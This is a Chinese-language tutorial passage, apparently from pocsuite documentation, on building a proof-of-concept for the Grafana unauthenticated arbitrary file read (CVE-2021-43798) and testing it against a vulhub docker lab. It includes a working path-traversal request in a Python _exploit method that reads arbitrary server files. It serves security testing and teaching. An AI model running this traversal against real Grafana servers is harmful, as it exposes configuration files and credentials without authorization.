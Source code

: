 ##5.3 Grafana 未授权任意文件读取漏洞（CVE-2021-43798）
Grafana 是一个跨平台、开源的数据可视化网络应用程序平台。Grafana v8.0.0-beta1 到 v8.3.0 存在未授权任意文件读取漏洞。

生成模版：
```shell
→pocsuite --new
...
-----
Seebug ssvid (eg, 99335) [0]: 99398
PoC author (eg, Seebug) []: Seebug
Vulnerability disclosure date (eg, 2021-8-18) [2022-07-11]: 2021-12-07
Advisory URL (eg, https://www.seebug.org/vuldb/ssvid-99335) [https://www.seebug.org/vuldb/ssvid-99398]:
Vulnerability CVE number (eg, CVE-2021-22123) []: CVE-2021-43798
Vendor name (eg, Fortinet) []:
Product or component name (eg, FortiWeb) []: Grafana
Affected version (eg, <=6.4.0) []: <=8.3.0
Vendor homepage (eg, https://www.fortinet.com) []: https://grafana.com

0    Arbitrary File Read
1    Code Execution
2    Command Execution
3    Denial Of service
4    Information Disclosure
5    Login Bypass
6    Path Traversal
7    SQL Injection
8    SSRF
9    XSS

Vulnerability type, choose from above or provide (eg, 3) []: 0
Authentication Required (eg, yes) [no]: no
...
```
根据公开的漏洞细节，修改 _exploit 方法：
```python
     def _exploit(self, param=''):
-        if not self._check(dork=''):
+        if not self._check(dork='Grafana', allow_redirects=True):
             return False

-        headers = {'Content-Type': 'application/x-www-form-urlencoded'}
-        payload = 'a=b'
-        res = requests.post(self.url, headers=headers, data=payload)
+        res = requests.get(f'{self.url}/public/plugins/grafana/../../../../../../../..{param}')
         logger.debug(res.text)
         return res.text
```
搭建靶场：

    https://github.com/vulhub/vulhub/tree/master/grafana/CVE-2021-43798
    docker-compose up -d
